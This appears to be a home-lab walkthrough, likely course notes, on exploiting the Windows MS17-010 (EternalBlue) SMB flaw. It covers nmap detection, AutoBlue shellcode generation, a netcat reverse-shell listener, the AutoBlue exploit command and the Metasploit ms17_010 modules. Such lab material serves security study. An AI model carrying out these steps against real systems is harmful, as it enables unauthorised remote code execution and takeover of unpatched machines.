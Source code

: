 # Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)

This laboratory has to be configured in your home lab as there is not a laboratory available.
You can take notes as the lab goes as well.

- It can be checked using the MSF.
- In addition to MSF, we can also exploit it manually with a tool called AutoBlue-MS17-010 (https://github.com/3ndG4me/AutoBlue-MS17-010).

Steps of the lab:

- Simple service detection using nmap.
- We are focusing on smb ports (445).
- We are going to use the script `smb-vuln-ms17-010` with nmap.
- We start exploiting the vulnerability manually using AutoBlue-MS17-010. It comes prepackaged with different eternalblue exploit scripts written in python for different versions of windows. The first step is to generate the shellcode using the script shell_prep.sh inside the repo, remember to setup if stageless and if meterpreter or cmd shell.
*Note*: LHOST is the attacking machine and RHOST is the victim.
*Note*: Remember that your shellcode will have the name sc_x86.bin or sc_x64.bin name.
- Run netcat to prepare your machine to start listening for connections with `nc -nvlp $PORT`
- Now we run the eternalblue_exploit script with its corresponding shellcode like this: `python eternalblue_exploit7.py x.x.x.x /path-to-shellcode`.
- Now to do it with MSF, we run msfconsole. To know if the target is vulnerable, we can use the `auxiliary/scanner/smb/smb_ms17_010` module and to exploit it we can run the `exploit/windows/smb/ms17_010_eternalblue` module.
- We already know that the target is vulnerable, so we select the exploitation module and set the RHOST value. It should be enough to exploit it and get a meterpreter session.

